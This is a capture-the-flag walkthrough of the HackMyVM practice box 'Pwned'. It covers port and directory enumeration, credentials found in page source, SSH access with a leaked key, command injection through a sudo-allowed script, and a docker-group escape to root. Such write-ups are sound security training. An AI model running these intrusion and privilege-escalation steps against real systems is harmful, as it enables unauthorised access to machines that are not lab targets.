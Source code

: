```yaml
---
title: Pwned - HackMyVM Walkthrough
author: Degr4ne
date: 2021-09-18 12:00:00 
categories: [HackMyVM]
tags: [ftp,sudo]
math: false
mermaid: false
image:
  src: /assets/img/HMVM/logo.png
  width: 216
  height: 213
---
```

Hello guys, today we are gonna do a walkthrough on `Pwned` the box from [HackMyVM](https://hackmyvm.eu) and maded by [annlynn](https://hackmyvm.eu/profile/?user=annlynn), this box is rated easy, in my case with an IP address of `192.168.56.131`. Without much say let’s jump in.

We will start with `nmap` to know which ports are open and what services are running.

```console
$ nmap -sC -sV -oN info 192.168.56.131           

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!

```
3 ports are open : FTP, SSH, and HTTP.
I tried login in ftp with user `anonymous` but this user isn't allowed,we could have tried enumerate SSH port but we need credentials, meanwhile on the 80 port it displays a message from the hacker who hacked our server, looking at the source code I found a comment but it wasn’t helpful anyway.

![01-web](/assets/img/HMVM/Pwned/01-web.png)

I decided to run `gobuster` to make a directory brute forcing.
``` console
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.131 -t 50 -o normalFuzz

/nothing              (Status: 301) [Size: 318] [--> http://192.168.56.131/nothing/]
/server-status        (Status: 403) [Size: 279]                                     
/hidden_text          (Status: 301) [Size: 322] [--> http://192.168.56.131/hidden_text/]

```
In the `/nothing` directory there's nothing useful, but  `/hidden_text`  is a directory listing and there a wordlist `secret.dic`.

![02-secret](/assets/img/HMVM/Pwned/02-secret.png)

So I downloaded using wget command.
`wget http://192.168.56.131/hidden_text/secret.dic`

And ran gobuster using `secret.dic` like wordlist.
```console
$ gobuster dir -w secret.dic -u http://192.168.56.131/ -t 50            

//pwned.vuln          (Status: 301) [Size: 321] [--> http://192.168.56.131/pwned.vuln/]
```

![03-login](/assets/img/HMVM/Pwned/03-login.png)

Looking at the source code of the login page, it shows a php code with credentials.

![04-credentials](/assets/img/HMVM/Pwned/04-credentials.png)

We can use these credentials to login via FTP.

User | Password
-|-
ftpuser | B0ss_B!TcH

Once logged in, We found `share` directory and into there are two files so I downloaded the files using the above commands.
```
prompt off
mget *
```
![05-ftp](/assets/img/HMVM/Pwned/05-ftp.png)

We noticed that there is an `id_rsa` file and a note talking about `ariana`. Changing the permission of the id_rsa with `chmod 600 id_rsa`, we can try to logging with the user ariana and the id_rsa by SSH service. 

Running `sudo -l` with the user ariana like the screenshot above. We see that ariana can run the the `messenger.sh` script like `selena` without password.

![06-sudo](/assets/img/HMVM/Pwned/06-sudo.png)

Analyzing the code of `messenger.sh`, I noticed that the script executes the value that we enter for `$msg`.
```bash
#!/bin/bash

clear
echo "Welcome to linux.messenger "
		echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
		echo ""
echo "$users"
		echo ""
read -p "Enter username to send message : " name 
		echo ""
read -p "Enter message for $name :" msg
		echo ""
echo "Sending message to $name "

$msg 2> /dev/null

		echo ""
echo "Message sent to $name :) "
		echo ""
```
So let's run a bash.

![07-script](/assets/img/HMVM/Pwned/07-script.png)

But we have to do it like the user `selena`:
```console
$ sudo -u selena /home/messenger.sh
```
With the command `id`, we notice that selena is in the docker group.

![08-id](/assets/img/HMVM/Pwned/08-id.png) 

So let's  use [GTFOShell](https://github.com/Degr4ne/GTFOShell) a tool that help us to search information on GTFOBins in terminal.

![09-gtfoshell](/assets/img/HMVM/Pwned/09-gtfoshell.png)

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

And voila!! we are root.

![10-root](/assets/img/HMVM/Pwned/10-root.png)

That’s it for now guys. Until next time.
